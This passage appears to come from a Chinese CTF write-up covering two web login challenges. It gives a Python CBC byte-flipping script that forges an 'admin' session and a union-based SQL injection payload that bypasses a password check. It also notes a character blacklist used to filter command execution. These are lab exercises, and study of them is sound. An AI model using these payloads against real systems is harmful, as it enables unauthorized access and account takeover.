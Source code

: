 ```php
                        <input type="submit" name="submit" value="Login" class="button" />
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```

阅读代码发现通过控制cipher的值进而控制session的值来获得flag

因为这是一个cbc加密后的字符串而我们又知道它的明文,通过cbc字节翻转来攻击

字节翻转攻击

```python
import base64
iv='w+tXOtqCoxQHWWvQOzLYDg=='.decode('base64')
ci="CVWXZDimKKgGoXMsKos0UOHdMzG/d2bB+v1WqC6bOongufcRUyB5fgiiJdlLG1CDwKCfkdXXzCrru0wL2F749g==".decode('base64')
old='a:2:{s:8:"username";s:5:"skctf";s:8:"password";s:5:"skctf";}'[16:32]
new='a:2:{s:8:"username";s:5:"admin";s:8:"password";s:5:"skctf";}'[16:32]
for i in range(16):
        ci=ci[:i]+chr(ord(ci[i])^ord(old[i])^ord(new[i]))+ci[i+1:]

```

得到![](http://ww1.sinaimg.cn/large/006pWR9agy1g5y9g9f9t6j310t02bglp.jpg)

解码后:

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5y9gny8nxj30dc01ja9v.jpg)

我们要回复前面的值,而题目又给了我们初始变量iv,所以按刚刚的步骤再来一下即可

### login2

收获: 不仅可以过滤输入,还可以过滤输出



提示:union,命令执行

看到http里的tip:

```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```

payload:`aaaaa'/**/union/**/select/**/'aaaaa','cfcd208495d565ef66e7dff9f98764da'#`

进入![](http://ww1.sinaimg.cn/large/006pWR9agy1g5ya1d4t7cj30db05d0su.jpg)

黑名单:`|,&,空格,像引号一样的东西`

输入a和'a'发现结果不同,猜测引号被过滤,或者在引号里面
